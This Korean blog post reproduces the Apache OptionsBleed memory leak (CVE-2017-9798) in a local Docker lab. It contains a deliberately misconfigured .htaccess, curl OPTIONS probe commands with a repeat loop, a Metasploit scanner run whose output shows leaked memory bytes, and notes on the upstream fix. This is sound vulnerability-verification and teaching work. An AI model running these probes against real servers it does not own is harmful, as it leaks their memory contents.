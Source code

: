 ```yaml
---
layout: post
title: "Apache OptionsBleed 취약점(CVE-2017-9798)을 검증"
categories: [보안, 취약점]
tags: [취약점, 스캐너, OptionsBleed]
toc: true
last_modified_at: 2023-08-10 14:02:00 +0900
---
```


# 개요
- Apache OptionsBleed 취약점(CVE-2017-9798)을 검증해본다. 
- 이 취약점은 use-after-free (해제된 메모리를 사용) 때문에 발생하는 취약점이다. 
- 취약한 환경을 구성해보고 스캐너를 돌려서 탐지되는지 확인해본다. 

# 취약한 환경 구성하기
- 이 버그는 특정 Apache버전(2.2.34과 2.4.27까지의 2.4.x버전)에서 특정 설정미스가 있을 때 발생한다고 한다. 
- 설정은 Apache의 .htaccess파일의 Limit 지시자(directive)를 설정하는 부분이다. 
- Limit 지시자는 [여기](https://httpd.apache.org/docs/2.4/mod/core.html#limit)에서 사용법을 알 수 있다. 

## Docker 를 사용해서 구성하기
- 먼저 취약한 버전의 Apache 이미지를 Dockerhub에서 구할 수 있는지 확인해본다. 
- 운이 좋게도 2.4.12버전이 있는 것을 확인할 수 있었다. 

### 설정파일 구성하기 
먼저 다음 커맨드를 실행해서 디폴트 설정파일을 얻어온다. 

```sh
docker run --rm httpd:2.4.12 cat /usr/local/apache2/conf/httpd.conf > my-httpd.conf
```

### .htaccess 파일 만들기
.htaccess파일을 다음과 같이 작성한다. acbce 자리에는 원래 허용할 HTTP 메서드가 적혀있어야 한다. 일부러 취약점을 유도하기 위해 잘못된 설정을 적었다. 이 파일은 추후 DocumentRoot로 복사할 것이다. 

```
<Limit abcde>
    Allow from 127.0.0.1
    Deny from all
</Limit>
```

### 설정파일 변경하기 (.htaccess가 동작하도록)
- DocumentRoot 디렉토리 설정부분의 `AllowOverride`를 `None`에서 `All`로 변경한다. (값이 None이면 .htaccess가 무효화된다.)

파일 수정시 주의점
- 설정파일을 노트패드로 연다. (VS Code등의 에디터로 수정하면 Unicode로 저장되어서 나중에 구동할 때 `Invalid command '\xff\xfe#', perhaps misspelled or defined by a module not included in the server configuration` 에러가 발생한다.)
- 저장시에는 꼭 문자코드를 ANSI로 설정해서 저장한다. (https://www.spinics.net/lists/apache-users/msg75041.html)

```conf
DocumentRoot "/usr/local/apache2/htdocs"
<Directory "/usr/local/apache2/htdocs">
    #
    # Possible values for the Options directive are "None", "All",
    # or any combination of:
    #   Indexes Includes FollowSymLinks SymLinksifOwnerMatch ExecCGI MultiViews
    #
    # Note that "MultiViews" must be named *explicitly* --- "Options All"
    # doesn't give it to you.
    #
    # The Options directive is both complicated and important.  Please see
    # http://httpd.apache.org/docs/2.4/mod/core.html#options
    # for more information.
    #
    Options Indexes FollowSymLinks

    #
    # AllowOverride controls what directives may be placed in .htaccess files.
    # It can be "All", "None", or any combination of the keywords:
    #   AllowOverride FileInfo AuthConfig Limit
    #
    AllowOverride All

    #
    # Controls who can get stuff from this server.
    #
    Require all granted
</Directory>

```

### Dockerfile 작성하기 
다음 Dockerfile을 만든다. 

```
FROM httpd:2.4.12
COPY .htaccess /usr/local/apache2/htdocs/
COPY index.html /usr/local/apache2/htdocs/
```

### index.html 파일 작성
웹서버가 잘 동작중인 것을 확인하기 위해 index.html 파일을 작성한다. 

```html
<html>
<h1>Apache OptionsBleed POC (CVE-2017-9798)</h1>
</html>
```


### 이미지 빌드

```sh
docker build --tag optionbleed:test_1 .
```


### 이미지 실행하기 

```sh 
docker run -p 80:80 -d --rm optionbleed:test_1 
```

## 동작확인
OPTIONS로 허용하는 메서드를 웹 서버에 문의해본다. 응답헤더의 Allow부분에 이상한 문자가 출력되는 것을 알 수 있다. 취약점을 확인하는데 성공했다! 

```sh
$ curl -sI -X OPTIONS http://localhost/
HTTP/1.1 200 OK
Date: Thu, 10 Aug 2023 06:37:32 GMT
Server: Apache/2.4.12 (Unix)
Allow: 腎ﾁ=~,赤ﾀ=~,慎ﾁ=~,GET,HEAD,POST,OPTIONS,TRACE
Content-Length: 0
Content-Type: text/html


```

참고로 다음 명령으로 여러번(100번) 반복해서 curl을 수행할 수 있다. 

```sh
for i in {1..100}; do curl -sI -X OPTIONS http://localhost/|grep -i "allow:"; done
```

![OptionsBleed실행한 모습](/images/options-bleed-poc.png)

# 스캐너 돌려보기
그러면 스캐너도 한번 돌려본다. Metasploit의 스캐너를 사용한다. 스캔 대상 서버는 다른 프로그램과 포트가 겹치지 않도록 500번 포트로 구동했다. 

제대로 취약하다고 판정된 것을 확인했다. 

```sh
msfconsole
use auxiliary/scanner/http/apache_optionsbleed
msf6 auxiliary(scanner/http/apache_optionsbleed) > set RHOSTS localhost
RHOSTS => localhost
msf6 auxiliary(scanner/http/apache_optionsbleed) > set RPORT 500
RPORT => 500
msf6 auxiliary(scanner/http/apache_optionsbleed) > exploit

[+] Request 1: [OptionsBleed Response] -> GET,HEAD,POST,OPTIONS,▒▒},▒T},▒t},TRACE
[+] Request 2: [OptionsBleed Response] -> GET,HEAD,POST,OPTIONS,▒T},▒t},▒▒},TRACE
[+] Request 9: [OptionsBleed Response] -> ▒▒},▒T},▒▒},GET,HEAD,POST,OPTIONS,TRACE
[+] Request 38: [OptionsBleed Response] -> ▒},▒▒},▒t},▒T},GET,HEAD,POST,OPTIONS,TRACE
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

![스캐너 실행 결과](/images/options-bleed-metasploit-exploit.png)



# Apache 코드 분석 
모처럼이니까 Apache 코드도 어떻게 바꼈는지 훑어본다.

수정된 코드는 여기에서 확인할 수 있다. 

https://github.com/apache/httpd/commit/4cc27823899e070268b906ca677ee838d07cf67a

![Optionsbleed수정된 코드](/images/options-bleed-code.png)

- 코드를 보아하니, 수정되기 전에는 .htaccess 에 기술한 HTTP메서드가 실행시점(runtime)에 동적으로 등록이 가능했던 것 같다. 
- 1) 실행시점에 메서드가 등록된다. 2) 기존에 존재하지 않는 메서드였다. 라는 두 가지 조건으로 use-after-free 가 되는 것일까?
- 수정 후에는 런타임에 메서드를 등록하는 부분에 안전조치가 추가된 것으로 보인다. (최초 init시점에만 등록이 가능하도록 바뀐 것 같다.)
- 운좋게도 [TrendMicro사의 블로그](https://www.trendmicro.com/ja_jp/research/17/j/optionsbleed-vulnerability-in-the-apache-http-server.html)에서 아주 상세한 코드 설명을 찾았다. 일본어지만 크롬 번역기능을 사용하면 된다. 

내가 이해한 것을 간략하게 적어본다. 
- 아파치에는 사용가능한 HTTP메서드도 글로벌 풀로 관리한다. (METHOD_REGISTRY) 
- .htaccess에 존재하지 않는 HTTP 메서드로 Limit 지시문을 정의하면 httpd를 시작한 후 새 HTTP 메서드가 추가된다. 
- 이 때, 글로벌 풀에 새롭게 추가되는데, 새롭게 추가된 후에 포인터가 정확히 데이터가 끝나는 부분을 가리키는게 아니라 여유공간을 가리키는 버그로 인해, 이 여유공간의 데이터가 함께 Allow 헤더에 추가되는 것으로 보인다. 

# 참고
- https://blog.fuzzing-project.org/60-Optionsbleed-HTTP-OPTIONS-method-can-leak-Apaches-server-memory.html
- https://bz.apache.org/bugzilla/show_bug.cgi?id=61207
- https://www.tenable.com/plugins/nessus/103838
- https://github.com/hannob/optionsbleed
- https://github.com/brokensound77/OptionsBleed-POC-Scanner
- https://hackerone.com/reports/269568
- https://www.cve.org/CVERecord?id=CVE-2017-9798
- https://www.trendmicro.com/ja_jp/research/17/j/optionsbleed-vulnerability-in-the-apache-http-server.html